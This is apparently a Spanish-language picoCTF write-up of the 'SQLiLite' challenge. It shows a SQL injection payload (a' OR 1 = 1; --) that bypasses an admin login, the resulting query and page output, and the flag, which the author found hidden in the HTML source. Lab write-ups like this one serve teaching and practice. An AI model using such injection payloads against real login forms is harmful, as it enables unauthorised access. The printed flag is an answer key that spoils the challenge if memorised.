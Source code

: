 ```yaml
---
title: SQLiLite
date: 2025-05-19 00:00:00 +0200
categories: [writeup, picoctf]
tags: [picoctf, sqlite, explitacion web]     
image:
    path: https://picoctf.org/img/logos/pico-mark.svg
    alt: PicoCTF
---
```


>SQLiLite
Author: Mubarak Mikail
Description
Can you login to this website? Try to login here.
{: .prompt-tip }

Nada más abramos la instancia, y carguemos la página web veremos el típico formulario de login, las pistas dicen que el usuario es 
admin. ¿Probamos con alguna inyección SQL como vimos anteriormente? [picoctf-moresqli](../picoctf-moresqli)

>a' OR 1 = 1; --

```
username: admin
password: a' OR 1 = 1; --
SQL query: SELECT * FROM users WHERE name='admin' AND password='a' OR 1 = 1; --'

Logged in! But can you see the flag, it is in plainsight.
```

Efectivamente funciona pero no podemos ver la flag. Procedo a ver el código fuente de la página a la que hemos accedido y voilá.

``` html
<pre>username: admin
password: a&#039; OR 1 = 1; --
SQL query: SELECT * FROM users WHERE name=&#039;admin&#039; AND password=&#039;a&#039; OR 1 = 1; --&#039;
</pre><h1>Logged in! But can you see the flag, it is in plainsight.</h1><p hidden>Your flag is: picoCTF{L00k5_l1k3_y0u_solv3d_it_9b0a4e21}</p>
```

flag **picoCTF{L00k5_l1k3_y0u_solv3d_it_9b0a4e21}**

De nuevo SQLi, casi una repeteción. 